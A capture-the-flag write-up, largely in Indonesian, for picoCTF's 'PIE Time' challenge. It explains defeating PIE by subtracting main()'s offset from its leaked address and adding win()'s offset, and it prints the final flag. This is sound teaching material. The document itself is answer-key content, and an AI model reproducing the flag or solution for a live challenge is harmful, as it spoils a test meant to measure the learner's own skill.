

# PIE Time #
 
## Overview ##
Author: Darkraicg492

Category: [Binary Exploitation](../)

## Description ##

Can you try to get the flag? Beware we have PIE!Connect to the program with netcat:
nc rescued-float.picoctf.net 63893
The program's source code can be downloaded here. The binary can be downloaded here.

## Approach ##

Jika kita akses nc-nya, akan muncul tampilan seperti ini.
└─$ nc rescued-float.picoctf.net 56616
Address of main: 0x61bf2dccb33d
Enter the address to jump to, ex => 0x12345:
aaa
Your input: aaa
Segfault Occurred, incorrect address.

Di sini, program menampilkan alamat main() yang terus berubah karena PIE enabled dan kita diminta memasukkan alamat fungsi yang ingin dipanggil. Jika kita lihat source code-nya, ada 1 fungsi yang tidak pernah dipanggil tapi memunculkan flag

```
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```

Kalau kita coba cari list fungsi beserta offset dengan objdump -t, kita akan menemukan sebagai berikut



Rumus memanggil fungsi win()
Base Address : Alamat main() yang di leak – offset main
Win : Base Address + offset win
Enter the address to jump to, ex => 0x12345: 0x63487AEDD2A7
Your input: 63487aedd2a7
You won!

### Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_fec8b8c5}`